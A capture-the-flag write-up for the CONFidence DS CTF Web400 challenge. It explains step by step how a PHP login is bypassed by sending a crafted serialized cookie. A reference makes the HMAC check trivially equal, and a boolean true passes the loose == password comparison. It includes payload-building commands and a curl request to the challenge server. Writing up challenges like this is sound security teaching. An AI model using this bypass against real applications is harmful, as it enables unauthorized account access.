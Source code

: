 # CONFidence DS CTF Teaser: Web400

**Category:** Web
**Points:** 400
**Description:**

> Fiery Technologies has created a new login system, where all secret messages are encoded. Please, check if you can bypass the authorization and read dragon's private stuff: <http://23.253.207.102/>

## Write-up

The website says:

> **You're not logged in.**
>
> Welcome to our new security system. You can try the demo version of the script here. For sure you'll be pleased.
>
> Use below credentials to try out our unbreakable message system:
>
> « guest:guest »
>
> We'll be looking forward your order.

Logging in with username `guest` and password `guest`, we get another message:

> You're logged in as guest!
> Source code of our newest system is available here:
>
> [« demo.zip &raquo;](demo)

[Unzipping this `demo.zip` file](demo) reveals some parts of the website’s source code.

[`database.php`](demo/database.php) contains the following:

```php
<?php

$database = array(

  array(
    'username' => 'guest',
    'password' => '084e0343a0486ff05530df6c705c8bb4',
    'secret_message' =>
    'ae7d55f7e2af728e7408d50677324732bca66dbd49f7b5f02956a0cc948648c715c6e988c8a178ba0b3b7aea83911b4ba8560831af16bfc8c6aa0f30f94c4fd5013b63d44364ea6f365cf059a3c8f8a6887944152af1de6e187248595ab9956a7479890a5e6ed4e95ff7e136b54030f8c239b33d042f5811f76af989ef0bd09e2b0a5619179f9ec2790f3a89f249769a207619d3b4c8c7384d91429ed07820206fcd127dc6cb873bb19395eaa385799fda5cf3e8ff6d094a6c7a8cb385320083ce2494800b1195a727b2e0ebf3f88e9a3220600ca024d5ebdbd680b3e13c660a'
  ),

  array(
    'username' => 'dragon',
    'password' => '[put md5 of your secret password here]',
    'secret_message' =>
    '[order the full version of the script to get encryption module]'
  )

);
```

The first item checks out – `084e0343a0486ff05530df6c705c8bb4` is the MD5 hash of `guest`, the password for the `guest` account we just used to login. The second array item is missing the juicy info, but at least now we know the username of the account we’re supposed to hack in to: `dragon`.

[The `auth.php` file](demo/auth.php) determines whether a login was successful or not:

```php
$auth = $_COOKIE['auth'];
if(get_magic_quotes_gpc())
  $auth = stripslashes($auth);
$auth = unserialize($auth);

if(!is_array($auth))
  return false;

$auth['hmac_t'] = sha1(sha1($auth['username'].$auth['hmac_t'].$auth['password']).$secret_salt);

if($auth['hmac_t'] !== $auth['hmac'])
  return false;
```

As we can see, the value of the `auth` cookie gets `unserialize()`d. There is a subtle unsafe unserialization vulnerability here that allows us to bypass the `$auth['hmac_t'] === $auth['hmac'])` check: since we control the value of the `auth` cookie, we can control the value of `$auth`, [as long as it’s an array](demo/auth.php#L11-12).

The [PHP `serialize()` documentation](http://php.net/serialize) contains this nugget:

> `serialize()` handles all types, except the resource-type. You can even `serialize()` arrays that contain references to itself. Circular references inside the array/object you are serializing will also be stored. Any other reference will be lost.

In this case, we can construct a custom array with the expected `username`, `password`, and `hmac` fields, and then add a `hmac_t` field that references the `hmac` field directly. The value for the `hmac` field doesn’t even matter:

```bash
$ php -r '$a = array("username" => "dragon", "password" => "???", "hmac" => "https://github.com/ctfs/write-ups"); $a["hmac_t"] = &$a["hmac"]; echo urlencode(serialize($a)) . "\n";'
a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22%3F%3F%3F%22%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D
```

Using this as the value of the `auth` cookie, we effectively bypass the `$auth['hmac_t'] === $auth['hmac'])` check. We’re still not logged in however, because of this code:

```php
$message = '';

foreach($database as $row)
{
  if($row['username'] == $auth['username'])
  if($row['password'] == $auth['password'])
  {
    $message = $row['secret_message'];
    return true;
  }
}

return false;
```

We know the expected username is `dragon`, so the `if($row['username'] == $auth['username'])` check is not a problem. We still need to make sure `$row['password'] == $auth['password']` holds true, though. `$row['password']` holds the MD5 hash of the password for the user `dragon` – a value we don’t know. How can we make our `$auth['password']` value be equal to it without knowing the right value? Luckily, [PHP’s crazy `==` operator](http://gynvael.coldwind.pl/?id=492) is being used here rather than the more sensical `===`. This allows us to use a non-string value for `$auth['password']` that will still equal any string, such as the boolean `true`. (Seriously, check out that last link link for more examples. PHP is crazy.)

```bash
$ php -r '$a = array("username" => "dragon", "password" => true, "hmac" => "https://github.com/ctfs/write-ups"); $a["hmac_t"] = &$a["hmac"]; echo urlencode(serialize($a)) . "\n";'
a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D
```

Using this as the value of the `auth` cookie, we’re successfully logged in as the `dragon` user!

```bash
$ curl --cookie 'auth=a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D' 'http://23.253.207.102/' > message.html
```

The response ([available as `message.html`](message.html)) contains the following message:

```bash
$ hexdump -C -s 0x520 message.html | head -n 23
00000520  64 69 76 20 63 6c 61 73  73 3d 22 63 6f 6e 74 61  |div class="conta|
00000530  69 6e 65 72 22 3e 0a 83  b3 6a 91 15 3e 36 d6 45  |iner">...j..>6.E|
00000540  b3 cc 5b 24 e3 49 c4 d5  f8 6a dd 64 85 7e 1b 6d  |..[$.I...j.d.~.m|
00000550  6c 04 8a eb d5 47 bd c8  05 ab d8 64 8c 37 d6 45  |l....G.....d.7.E|
00000560  7b 03 4e 09 7d f4 bd 83  b3 6a 91 15 3e 53 26 47  |{.N.}....j..>S&G|
00000570  8f 0a 8b 32 e6 36 11 d8  ff ab e5 5e 8d 85 29 2a  |...2.6.....^..)*|
00000580  6b f4 8c 40 9b 4b 02 83  f9 b9 e6 63 82 37 2a 71  |k..@.K.....c.7*q|
00000590  b0 bb 83 37 d5 3b d7 9f  c2 ba ae ff 3e 36 d6 29  |...7.;......>6.)|
000005a0  6b bb 3c eb b0 44 db 9f  f4 6a d4 61 7f 8a 29 46  |k.<..D...j.a..)F|
000005b0  6d fd 91 39 94 37 11 d1  c0 ba e3 5e 8b 78 28 82  |m..9.7.....^.x(.|
000005c0  6b fd 91 39 a1 41 04 85  b3 bc e0 61 83 53 d8 6b  |k..9.A.....a.S.k|
000005d0  c1 0f 91 3a e1 f6 bd cc  05 af d7 32 40 81 17 7f  |...:.......2@...|
000005e0  ad 0e 80 3d dd 45 11 9e  09 b9 da 59 46 87 28 78  |...=.E.....YF.(x|
000005f0  b9 0b 90 f3 9b 29 05 c8  b3 90 dd 56 85 3d e2 30  |.....).....V.=.0|
00000600  90 0d 84 39 c7 4f cf 9c  ca 7b d7 2d 54 7d 19 40  |...9.O...{.-T}.@|
00000610  ac cc 52 fc d8 09 ce 97  f8 81 d5 57 82 78 1a 3e  |..R........W.x.>|
00000620  af fd 83 2c a6 0b 1a 8a  bc 73 93 33 44 83 17 7a  |...,.....s.3D..z|
00000630  c1 0a 57 eb b8 47 04 d1  e6 c5 a3 2e 55 48 1c 41  |..W..G......UH.A|
00000640  82 01 80 02 d5 05 d3 94  f7 7f a2 29 83 4e 1a 6b  |...........).N.k|
00000650  af fc 81 00 d8 37 03 c4  c5 80 ee 15 44 89 17 7a  |.....7......D..z|
00000660  c1 0a 58 07 a3 35 db 63  93 4a 70 f5 1e 16 b6 09  |..X..5.c.Jp.....|
00000670  4b 9b 1d 07 a3 44 db 0a  20 20 20 20 20 20 3c 2f  |K....D..      </|
00000680  64 69 76 3e 0a 20 20 20  20 3c 2f 64 69 76 3e 0a  |div>.    </div>.|
```

The message is garbled because it has been decrypted using the incorrect password we provided.

(TODO)

## Other write-ups

* none yet
